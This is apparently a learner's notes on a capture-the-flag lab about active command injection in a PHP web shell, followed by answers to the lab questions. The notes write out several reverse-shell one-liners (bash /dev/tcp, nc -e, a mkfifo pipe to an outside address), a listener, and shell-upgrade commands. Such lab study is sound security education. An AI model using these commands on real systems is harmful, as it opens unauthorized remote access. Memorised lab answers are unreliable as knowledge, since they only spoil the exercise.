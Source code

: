 **What is Active Command Injection?**

Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document. Active command injection will return the response to the user. It can be made visible through several HTML elements.

---

Let's consider a scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet. It's nowhere near finished but contains the same command injection vulnerability as before! But this time, the response from the system call can be seen on the page! They'll never learn!

Just like before, let's look at the sample code from evilshell.php and go over what it's doing and why it makes it active command injection. See if you can figure it out. I'll go over it below just as before.

![[Untitled 566.png|Untitled 566.png]]

---

We have an input in http://<IP_ADDRESS>/evilshell.php

![[Untitled 1 31.png|Untitled 1 31.png]]

This input isnt sanitized, so we have Command Injection

![[Untitled 2 24.png|Untitled 2 24.png]]

We can try establish a **Reverse Shell**

![[Untitled 3 24.png|Untitled 3 24.png]]

> [!important]  
> REVERSE SHELL CODEbash -c "bash -i &> /dev/tcp/<IP_ADDRESS>/<PORT> 0>&1"  
system('bash -c "bash -i &> /dev/tcp/<IP>/<PORT> 0>&1"');  
nc <ip> <port> -e /bin/bash  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/fIn our side we have![[Untitled 4 24.png|Untitled 4 24.png]]nc -nlvp <PORT>  
  
> [!important]  
> Treat shellscript /dev/null -c bashctrl zstty raw -echo; fgreset xtermexport TERM=xtermexport SHELL=/bin/bashstty sizestty rows X columns X  
python3 -c 'import pty;pty.spawn("/bin/bash")'export TERM=xtermctrl + zstty raw -echo; fg  

Success!

![[Untitled 5 17.png|Untitled 5 17.png]]

---

## MACHINE RESOLUTION

![[Untitled 6 15.png|Untitled 6 15.png]]

What strange text file is in the website root directory?

==**drpepper.txt**==

![[Untitled 7 15.png|Untitled 7 15.png]]

How many non-root/non-service/non-daemon users are there?

==**0 zero**==

This is because there is no user “flagged” as non-root/non-service/non-daemon.

![[Untitled 8 14.png|Untitled 8 14.png]]

What user is this app running as?

==**www-data**==

![[Untitled 9 12.png|Untitled 9 12.png]]

What is the user's shell set as?

==**/usr/sbin/nologin**==

![[Untitled 10 9.png|Untitled 10 9.png]]

What version of Ubuntu is running?

==**14.04.4**== LTS

![[Untitled 11 9.png|Untitled 11 9.png]]

Print out the MOTD.  What favorite beverage is shown?

==**DR PEPPER**==

![[Untitled 12 8.png|Untitled 12 8.png]]